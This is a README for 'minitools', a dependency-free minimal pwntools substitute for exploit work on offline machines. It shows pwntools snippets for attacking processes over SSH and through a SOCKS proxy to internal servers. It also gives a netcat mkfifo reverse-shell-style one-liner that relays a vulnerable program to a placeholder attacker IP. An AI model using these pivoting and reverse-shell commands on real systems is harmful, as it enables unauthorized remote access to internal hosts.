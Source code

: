 # minitools
A minimal version of pwntools that requires no external libraries


# PLEASE DON'T USE THIS IF YOU DON'T HAVE TO!!!
I'f you've found this repository, I imagine it's because you want to use pwntools on a machine that has limited or no external internet access.
This repository *can* work as a solution, but treat it as a final option-- this only contains the code for process communication and packing. No ELF parsing, no ROP generation etc etc.

If you can connect to the machine over SSH, you're in luck. Ignore this repository:
```python
conn = ssh('blah', 'server.com', password='password')
p = conn.process("/home/blah/pwn.elf") # attack a local process
p = conn.remote("172.16.45.9",9001) # attack a remote server (through the connection)
# continue exploit as normal
```
If SSH is disabled, you can try setting up a SOCKS proxy (if you need to attack an internal server):
```python
context.proxy = (2,'172.16.45.9',1081) # 2 for SOCKS5, 1 for SOCKS4
# remote() will now connect through the proxy
```
Or, in extreme cases, you can send the vulnerable program over reverse-shell style:
```python
# on your solve script
s = server(8888)
info("Waiting for connection on port 8888...")
p = s.next_connection() 
# continue exploit as normal
```
```bash
# on the internal machine
rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|./vulnerable_program 2>&1|nc <your-server-ip> 8888 >/tmp/f
```

If none of those work, or you need this for some other reason, welcome to my incredibly hacky solution. 
